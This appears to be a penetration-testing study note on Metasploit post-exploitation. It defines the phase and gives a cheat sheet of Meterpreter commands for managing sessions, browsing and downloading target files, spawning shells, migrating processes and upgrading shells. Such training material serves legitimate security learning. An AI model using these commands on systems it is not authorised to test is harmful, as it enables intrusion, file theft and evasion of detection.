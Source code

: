 # iii - Post Exploitation Fundamentals

## Meterpreter Fundamentals

**Post Exploitation**

* Post exploitation refers to the actions performed on the target system after initial access has been obtained.
* The post exploitation phase of a penetration test consists of various techniques like:
  * Local Enumeration
  * Privilege Escalation
  * Dumping Hashes
  * Establishing Persistence
  * Clearing Your Tracks
  * Pivoting

### **Meterpreter**

* The Meterpreter (Meta-Interpreter) payload is an advanced multi-functional payload that operates via DLL injection and is executed in memory on the target system, consequently making it difficult to detect.
* It communicates over a stager socket and provides an attacker with an interactive command interpreter on the target system that facilitates the execution of system commands, file system navigation, keylogging and much more.
* Meterpreter also allows us to load custom script and plugins dynamically.
* MSF provides us with various types of meterpreter payloads that can be used based on the target environment and the OS architecture.

## **Practical Demonstration**

```bash
# <command> -h for every meterpreter commands to see the corresponding flags.
meterpreter > sysinfo # info about the system
meterpreter > getuid # username info.
meterpreter > help # help menu.

# sessions management.
meterpreter > background # put session in bg or ctrl+z.
meterpreter > sessions -l # List all of your active sessions.
meterpreter > sessions -C <command> -i <sessionID> #Execute a command without having to interact with it.
meterpreter > sessions -K #Terminate all sessions
meterpreter > sessions -k <sessionID> #Terminate a particular session
meterpreter > sessions <sessionID> # Interact/switch btw session.
meterpreter > sessions -n <name> -i <sessionID> # Rename a session

# navigating in sessions.
# [W/L]-both windows and linux, [W]-windows, [L]-linux.
meterpreter > ls # List files in current directory [W/L]
meterpreter > pwd # Print the current directory [W/L]
meterpreter > cd #Change directory [W/L]
meterpreter > mkdir <name> #Create a directory [W/L]
meterpreter > rmdir <name> #Delete a directory [W/L]
meterpreter > cat <file> #Show the content of a file [W/L]
meterpreter > edit <file> #Allow to edit a file [W/L]
meterpreter > download <file> <localLocation> #Download a file.
kali@kali$ unzip flag5.zip
meterpreter > checksum md5 <file> # Get the md5 checksum of a file.
meterpreter > getenv <environmentVariable> # Return environment variables [L], eg: getenv PATH, getenv TERM.
meterpreter > search -f <query> #Search for a file in the entire system.
# Use "-d" to indicate a directory in which to search. Compatible with wildcards, eg: search -d /usr/bin -f "backdoor"
# search -f *.jpg, *.php 

# spawning a shell on windows/linux.
meterpreter > shell #Open a shell in the target OS. Use /bin/bash -i to upgrade it to a bash prompt.
victim@shell$ ps # List all processes running on the system.
victim@shell$ ctrl+c # terminate the shell session.

meterpreter > ps # lists all processes in the target pc.
meterpreter > migrate <PID> # Migrate to another process using it's PID.
meterpreter > migrate -N <processName> # Migrate to another process using it's name.

# execute a cmd in meterpreter.
execute -f ifconfig # executes the ifconfig cmd.
```



## Upgrading Command Shells to meterpreter Shells

<pre class="language-bash"><code class="lang-bash"><strong># method 1
</strong><strong>msf5 > use post/multi/manage/shell_to_meterpreter #Upgrade a command shell to meterpreter
</strong>
# mehod 2
msf5 > sessions -u &#x3C;sessionID> # upgrade a command shell to meterpreter.
</code></pre>



